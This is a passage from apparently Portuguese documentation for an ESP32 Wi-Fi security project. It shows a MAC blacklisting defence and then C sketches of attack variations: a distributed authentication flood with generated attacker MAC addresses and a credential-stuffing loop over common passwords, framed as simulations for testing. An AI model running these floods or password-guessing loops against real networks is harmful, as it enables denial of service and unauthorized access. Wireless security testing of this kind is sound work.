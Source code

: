 #### 3.3.3 Blacklisting Automático
```c
typedef struct {
    uint8_t mac[6];
    uint32_t attempts;
    time_t blacklist_until;
    uint8_t violation_level;
} blacklist_entry_t;

void update_blacklist(uint8_t *mac, uint8_t reason) {
    if (is_flood_pattern(mac)) {
        blacklist_mac(mac, 3600);  // 1 hora
        ESP_LOGW(TAG, "🚫 MAC blacklisted: " MACSTR, MAC2STR(mac));
    }
}
```

## Variações do Ataque

### 1. Distributed Auth Flood
```c
// Simular múltiplos atacantes
typedef struct {
    uint8_t base_mac[6];
    uint32_t mac_range;
    uint32_t attempts_per_mac;
} distributed_flood_config_t;

void distributed_auth_flood(void) {
    for (int i = 0; i < VIRTUAL_ATTACKERS; i++) {
        generate_attacker_mac(i, current_mac);
        perform_auth_attempts(current_mac, ATTEMPTS_PER_ATTACKER);
        vTaskDelay(pdMS_TO_TICKS(ATTACKER_INTERVAL_MS));
    }
}
```

### 2. Credential Stuffing Simulation
```c
// Usar lista de credenciais comuns
const char* common_passwords[] = {
    "password", "123456", "password123", "admin", "qwerty"
};

void credential_stuffing_attack(void) {
    for (int i = 0; i < sizeof(common_passwords)/sizeof(char*); i++) {
        strcpy(wifi_config.sta.password, common_passwords[i]);
        attempt_authentication();
        vTaskDelay(pdMS_TO_TICKS(CRED_STUFF_INTERVAL_MS));
    }
}
```
